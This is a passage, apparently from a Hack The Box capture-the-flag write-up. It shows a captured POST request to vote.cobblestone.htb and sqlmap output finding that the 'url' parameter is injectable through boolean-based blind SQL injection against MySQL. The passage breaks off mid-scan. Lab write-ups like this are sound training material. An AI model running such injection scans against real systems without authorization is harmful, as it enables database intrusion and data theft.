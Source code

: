 ```bash
Referer: http://vote.cobblestone.htb/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=bdufjqsj8bnoc07s9t5ma46jo9
Connection: keep-alive

url=http%3A%2F%2Fvote.cobblestone.htb%2Findex.php
```

Then we use `sqlmap` with `--batch` to run it automatically.

```bash
└─$ sqlmap -r req --batch
        ___
       __H__                                                                                                                                                                                                                                                                                                                
 ___ ___["]_____ ___ ___  {1.9.6#stable}                                                                                                                                                                                                                                                                                    
|_ -| . [)]     | .'| . |                                                                                                                                                                                                                                                                                                   
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:28:41 /2025-08-13/

[09:28:41] [INFO] parsing HTTP request from 'req'
[09:28:42] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=5'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
[09:28:43] [INFO] checking if the target is protected by some kind of WAF/IPS
[09:28:44] [INFO] testing if the target URL content is stable
[09:28:45] [WARNING] POST parameter 'url' does not appear to be dynamic
[09:28:46] [WARNING] heuristic (basic) test shows that POST parameter 'url' might not be injectable
[09:28:47] [INFO] testing for SQL injection on POST parameter 'url'
[09:28:47] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[09:28:48] [WARNING] reflective value(s) found and filtering out
[09:28:58] [INFO] POST parameter 'url' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[09:29:24] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[09:29:24] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[09:29:25] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
```